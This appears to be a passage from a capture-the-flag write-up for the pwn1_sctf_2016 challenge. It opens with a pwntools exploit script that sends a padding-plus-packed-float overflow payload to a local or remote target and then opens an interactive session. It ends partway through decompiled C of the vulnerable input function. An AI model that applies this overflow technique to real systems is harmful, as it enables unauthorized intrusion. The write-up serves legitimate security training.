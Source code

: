 ```python


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    payload = flat(b"A" * 0x2C, struct.pack("<f", 11.28125))

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

# pwn1_sctf_2016

## Information

- Category: Pwn
- Points: 1

## Write-up

```c ins={12} del={18, 25-26}
int vuln()
{
  const char *v0; // eax
  int v2; // [esp+8h] [ebp-50h]
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  _BYTE v4[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  _BYTE v5[7]; // [esp+40h] [ebp-18h] BYREF
  char v6; // [esp+47h] [ebp-11h] BYREF
  _BYTE v7[7]; // [esp+48h] [ebp-10h] BYREF
  _BYTE v8[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v6);
  std::string::string(v5, "you", &v6);
  std::allocator<char>::allocator(v8);
  std::string::string(v7, "I", v8);
  replace((std::string *)v4, (std::string *)&input, (std::string *)v7);
```